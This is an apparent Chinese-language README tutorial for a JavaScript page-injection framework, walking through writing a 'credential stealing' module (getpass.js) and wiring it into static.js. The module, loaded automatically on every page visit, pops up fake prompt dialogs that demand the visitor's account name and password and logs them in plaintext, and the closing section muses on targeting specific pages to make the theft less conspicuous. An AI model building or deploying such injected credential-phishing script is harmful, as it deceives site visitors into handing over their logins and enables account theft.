


> 视频介绍：[bv1SK4y1n7xx](https://www.bilibili.com/video/bv1SK4y1n7xx)

## 0x00 目录结构介绍


```
.
├── access.log # 日志文件
├── docker-compose.yml # 容器配置文件
├── README.md  # 说明文档
└── static  # 静态文件夹
    ├── index.html # 测试页面
    ├── modules # JS模块目录
    │   └── cookie.js  # cookie相关模块
    ├── README.md  # JS模块文档
    └── static.js  # 主静态文件，会被默认加载到页面中

2 directories, 7 files
```
## 0x01 新建模块 - 窃取凭证

首先用VScode打开项目目录，在modules中新建一个`getpass.js`文件：



写入代码：

```js
/*
模拟一个对话框
prompt("请输入账号：")

用户输入 账号
用户输入 密码

保存凭证

*/

export function getPassword(u_info, p_info){

    var cert = new Object();
    cert.username = null;
    cert.password = null;

    while(cert.username == null || cert.username == "" ){
        cert.username = prompt(u_info);
    }

    while(cert.password == null || cert.password == ""){
        cert.password = prompt(p_info);
    }

    return cert;
}
```

最后在`static.js`中引入：




```js
import * as GetPassword from "./modules/getpass.js"
console.log(GetPassword.getPassword("请输入账号：", "请输入密码："));
```

查看站点：


访问页面就会自动弹出提示框，当完成输入后，控制台会打印明文账号密码。


## 0x02 窃取凭证模块的思考

现阶段大部分网站已经解决了明文传输的问题，基本上很多都是通过JS进行加密，这让获取明文密码变得更加“麻烦了点”。

上述演示的模块是在每一个HTTP请求中都会执行，肯定是不友好的，因此可以根据判断页面内容来进行弹出，还需要不断优化。
